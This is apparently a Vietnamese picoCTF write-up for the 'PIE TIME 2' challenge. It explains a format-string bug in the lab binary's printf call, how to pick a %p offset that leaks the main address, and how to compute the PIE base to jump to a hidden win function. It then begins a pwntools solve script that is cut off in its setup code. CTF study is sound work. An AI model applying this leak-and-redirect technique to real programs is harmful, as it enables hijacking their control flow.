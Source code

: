 Từ source code trên mình sẽ chú yếu phân tích 2 hàm `win` và `call_functions`. Trong đó hàm `win` sẽ làm một hàm `ẩn` do không được call, và hàm `call_functions` sẽ là hàm được `main` call và sẽ là hàm thực hiện các chức năng chính của chương trình. Ta sẽ đi vào phân tích hàm `call_functions` trước

```c
void call_functions() {
  char buffer[64];
  printf("Enter your name:");
  fgets(buffer, 64, stdin);
  printf(buffer);

  unsigned long val;
  printf(" enter the address to jump to, ex => 0x12345: ");
  scanf("%lx", &val);

  void (*foo)(void) = (void (*)())val;
  foo();
}
```

Nhìn sơ qua thì hàm có lỗi `Format String` do `printf(buffer)` gây ra, dữ liệu đầu vào được nhập tại `buffer` và chính vì thế ta có thể kiểm soát các `format specifer` giúp ta leak những địa chỉ mà ta muốn. Và vẫn như `PIE TIME 1` ở bài này nó sẽ thực thi địa chỉ mà ta chỉ định trong biến `val`

```c
  void (*foo)(void) = (void (*)())val;
  foo();
```

Đối với bài này, ta không được leak sẵn như `PIE TIME 1` nên ta cần phải tự làm, bằng việc sử dụng format `%p` ta có thể dễ dàng leak địa chỉ tại bất cứ đâu mà ta muốn. Để tìm được offset địa chỉ mà ta muốn leak, mình sẽ cho chương trình dừng tại hàm `printf` có lỗi `Format String`, sau đó tính toán offset

![alt text](/img/PicoCTF/image-2.png)

Và hãy cho rằng địa chỉ mà mình muốn leak là nằm ở `rbp+0x8` tức là `saved rip` của hàm `call_functions`, tại đây ta có thể thấy đó là địa chỉ của hàm `main`
Việc ta cần làm là dùng công thức sau để tính toán

```
offset = ([address muốn leak] - [address tại rsp (top stack)])/8 + 6
```

Và mình tính ra được offset tại đó là `19` lúc này ta chỉ cần sử dụng short form `%<offset>$p` để leak. Sau khi leak được địa chỉ tại main ta sẽ tính toán địa chỉ `base` và sau đó truyền địa chỉ của hàm `win`

### Solution

```py
#!/usr/bin/env python3
# -*- coding: utf-8 -*-
from pwn import *
from time import sleep

context.log_level = 'debug'
exe = context.binary = ELF('./vuln', checksec=False)
libc = exe.libc

def init(argv=[], *a, **kw):
    if args.GDB:
        return gdb.debug([exe.path] + argv, gdbscript=gdbscript, *a, **kw)
    elif args.REMOTE:
        return remote(sys.argv[1], sys.argv[2], *a, **kw)
    elif args.DOCKER:
        docker_port = sys.argv[1]
        docker_path = sys.argv[2]
```